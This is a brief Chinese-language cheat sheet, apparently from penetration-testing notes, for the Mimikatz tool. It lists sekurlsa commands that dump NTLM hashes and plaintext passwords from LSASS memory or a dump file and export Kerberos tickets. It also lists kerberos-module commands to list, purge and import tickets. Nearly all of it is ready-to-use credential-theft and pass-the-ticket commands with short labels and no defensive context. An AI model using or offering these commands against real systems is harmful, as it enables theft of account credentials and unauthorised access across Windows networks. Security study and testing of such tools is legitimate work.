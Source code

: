 [![](assets/1709014237-18de01fee1442f29b589b3f2dc33ed51.png)](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696681438644-ceb8b213-f10c-4ed6-b0b3-7b15608cb47e.png#averageHue=%23121212&clientId=ud3001085-0583-4&from=paste&height=273&id=ua28ef9f2&originHeight=545&originWidth=951&originalType=binary&ratio=2&rotation=0&showTitle=false&size=169002&status=done&style=none&taskId=ua0a141e9-7b70-4423-b8ea-7030434d6ad&title=&width=475.5)  
`sekurlsa模块`

```plain
sekurlsa::logonpasswords

抓取用户 NTLM 哈希
sekurlsa::msv

加载 dmp 文件，并导出其中的明文密码
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords full

导出 lsass.exe 进程中所有的票据
sekurlsa::tickets /export
```

`kerberos模块` - 提取票据

```plain
列出系统中的票据
kerberos::list
kerberos::tgt

清除系统中的票据
kerberos::purge

导入票据到系统中
kerberos::ptc 票据路径
```
